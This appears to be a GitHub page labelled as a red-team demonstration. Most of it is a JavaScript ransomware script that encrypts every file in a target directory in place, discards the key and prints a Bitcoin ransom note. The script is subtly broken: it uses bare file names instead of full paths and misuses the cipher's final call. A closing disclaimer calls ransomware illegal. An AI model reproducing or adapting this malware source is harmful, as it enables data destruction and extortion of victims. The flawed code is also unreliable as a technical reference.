 # Ransomware code in JavaScript
##### RedTeam - Technics
(for-demonstration-purposes-only to understand the technic behind.
Ransomware code (for demonstration purposes only)

```
// Ransomware code (for demonstration purposes only)
var fs = require('fs');
var crypto = require('crypto');

// Directory to target for file encryption
var targetDirectory = '/user/files';

// Generate encryption key
var encryptionKey = crypto.randomBytes(32).toString('hex');

// Read all files in the target directory
fs.readdirSync(targetDirectory).forEach(file => {
  // Skip directories
  if (fs.lstatSync(file).isDirectory()) return;

  // Read file data
  var data = fs.readFileSync(file);

  // Encrypt file data with encryption key
  var encryptedData = crypto
    .createCipher('aes-256-cbc', encryptionKey)
    .update(data, 'utf8', 'hex') +
    crypto.createCipher.final('hex');

  // Write encrypted data back to file
  fs.writeFileSync(file, encryptedData);
});

// Display ransom note to user
var ransomNote = `
Your files have been encrypted!
To decrypt your files, send 0.1 BTC to the following address:
<Bitcoin_Address>
Once payment is received, your files will be decrypted.
If payment is not made within 48 hours, the encryption key will be deleted, and your files will be lost forever.
`;

console.log(ransomNote);

```
Please note that creating or using ransomware is illegal and unethical. It is important to always abide by the law and use technology responsibly and ethically to promote positive outcomes for society.
